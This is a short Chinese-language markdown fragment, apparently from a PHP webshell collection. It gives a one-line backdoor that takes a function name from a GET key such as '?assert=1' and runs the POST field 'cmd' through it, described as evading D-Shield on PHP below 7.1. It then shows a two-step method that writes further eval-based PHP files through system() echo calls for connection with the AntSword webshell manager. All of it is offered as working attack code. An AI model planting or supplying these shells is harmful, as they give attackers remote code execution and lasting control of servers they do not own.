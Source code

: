 
**利用get获取数组键名,版本小于7.1**

```php
<?php
//利用key获取数组键名，在木马URL后加上 ?assert=1，密码cmd
$lang = (string)key($_GET);  
$lang($_POST['cmd']);
?>

```
![](img/24.png)


---





---

### 过D，但需要多次操作才可蚁剑连接

以下马都需要在挂上后执行二次操作，如：
```php
?shell=system('echo ^<?php define("shell","$_REQUEST[shell]"); ?^>>1.php');
?shell=system('echo ^<?php include("1.php");eval(shell); ?^>>2.php');
```
然后使用蚁剑去连接`2.PHP`。

